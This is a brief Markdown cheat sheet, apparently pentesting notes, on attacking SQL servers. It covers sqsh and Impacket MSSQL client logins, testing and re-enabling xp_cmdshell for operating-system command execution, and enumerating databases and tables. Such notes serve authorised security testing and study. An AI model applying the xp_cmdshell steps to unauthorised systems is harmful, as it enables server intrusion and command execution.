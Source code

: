 ```yaml
---
layout: default
title: SQL
tags:
    - injection
    - SQLi
    - structured query language
---
```

# SQL
## CLI Tools
```shell
sqsh -S 10.10.10.10 -U [USERNAME] -P [PASSWORD/HASH]
```
- Supports Kerberos but don't know of way to use Windows authentication

## MSSQL
Impacket CLI Client
```shell
/usr/share/doc/python-impacket/examples/mssqlclient.py [USER]@10.10.10.10
```
- `[[domain/]username[:password]@]10.10.10.10`
- If you provide the password as part of the target then it's treated as an LDAP query; use the prompt otherwise

Test `xp_cmdshell`
```sql
xp_cmdshell 'whoami'
GO
```

If disabled, attempt to enable
```sql
EXEC SP_CONFIGURE 'show advanced options', 1  -- only do this if it doesn't work regularly and it's actually an advanced option
RECONFIGURE  -- as above
EXEC SP_CONFIGURE 'xp_cmdshell', 1
RECONFIGURE
GO
```

List databases
```sql
SELECT name FROM master.sys.databases
```

List tables in database
```sql
USE [DATABASE]
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE'
```

## PowerUpSQL
_Must run from Windows; issues with Powershell for Linux_

<https://github.com/NetSPI/PowerUpSQL>

todo